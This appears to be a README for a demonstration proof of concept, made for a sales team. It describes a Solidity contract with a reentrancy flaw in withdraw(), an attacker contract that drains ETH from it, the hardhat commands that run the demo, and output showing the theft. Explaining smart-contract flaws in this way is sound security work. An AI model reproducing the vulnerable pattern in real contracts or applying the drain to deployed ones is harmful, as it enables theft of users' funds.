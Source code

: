 # DEMO POC

The repository contains a scenerio based vulnerability PoC for the sales-team.

1. `Vulnerable.sol` : The contract has a functionality where users can deposit their native asset (ETH) to the contract and the contract allows them to withdraw after the period of `7 days.`

The contract has a [reentrancy vulnerability](https://hackernoon.com/hack-solidity-reentrancy-attack) on `withdraw()` functionality which could allow attacker to withdraw the more amount of native asset (ETH) then the initially deposited amount.

2. `Exploit.sol` : The contract was prepared by the attacker to exploit the vulnerability of the `Vulnerable.sol` contract to drain the native asset (ETH) from the contract.

-----

```bash
npm i
npx hardhat run scripts/poc.js
```

```bash  
Vulnerable contract has been deployed to : 0x5FbDB2315678afecb367f032d93F642f64180aa3
Balance of the victim on vulnerable contract :  50.0
[1] Current block timestamp before block fast-forward :  1661493170
[2] Current block timestamp after block fast-forward :  1662097970
===
 EXPLOIT START 
===
[exploit] BALANCE AFTER DEPOSITING THE AMOUNT :  50000000000000000000
[exploit] RECEIVED ETH :  50000000000000000000
[exploit] STEALING BALANCE OF :  10000000000000000000
[exploit] RECEIVED ETH :  10000000000000000000
```
